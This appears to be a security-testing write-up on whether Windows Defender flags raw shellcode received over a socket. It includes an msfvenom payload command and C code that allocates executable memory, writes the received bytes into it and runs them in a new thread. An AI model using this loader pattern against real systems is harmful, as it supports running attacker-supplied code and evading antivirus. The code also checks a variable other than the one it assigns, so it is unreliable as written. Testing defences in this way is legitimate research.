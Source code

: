 ## Sending Raw Shellcode Over a Socket
The idea here is to test whether or not Windows Defender will flag or stop a malicious process if it receives “raw” shellcode over the network.

To test this I used a simple unobfuscated msfvenom payload that will spawn a calculator process.

```bash
msfvenom -p windows/x64/exec CMD="calc.exe" -f c
```

Standard C sockets were used to test this. There is a commonly known approach to running a payload. First you need to allocate a buffer in memory, write the payload to that region of memory, and then execute it in some way. Below is the specific Windows API calls that will be used in order of execution:

1. VirtualAlloc
2. WriteProcessMemory
3. CreateThread

```c
//Allocate a page of memory with all protections to it set
LPVOID buffer = VirtualAlloc(0, DEFAULT_BUFLEN, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if (buffer == NULL) {
    printf("[-] Failed in allocating buffer %d\n", GetLastError());
    return 9;
}

HANDLE currentProcess;
HANDLE hThread;
//Get a handle to the current running process
currentProcess = GetCurrentProcess();

//Write shellcode to newly created page of memory
BOOL result1 = WriteProcessMemory(currentProcess, buffer, &recvbuf, DEFAULT_BUFLEN, NULL);
if (result == 0) {
    printf("[-] Failed to write process memory with error %d\n", GetLastError());
}

printf("\n[+] Executing shellcode\n");

//Execute shellcode via a newly created thread
hThread = CreateThread(NULL, DEFAULT_BUFLEN, buffer, NULL, 0, NULL);
if (hThread == NULL) {
    printf("Failed to create thread %d\n", GetLastError());
    return 11;
}
WaitForSingleObject(hThread, INFINITE);
```

First we allocate a region of memory inside the current process using [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or a remote process using [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex). Some techniques allocate memory with just the READ/WRITE permissions set initially, write to that region of memory, and then change the permissions to just be READ/EXECUTE. In this scenario, we will be using the most known technique of having all permissions set. The second step is to write shellcode to that specific region of memory using [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory). The last step is to create a thread using [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) to execute that region of memory in a separate thread.
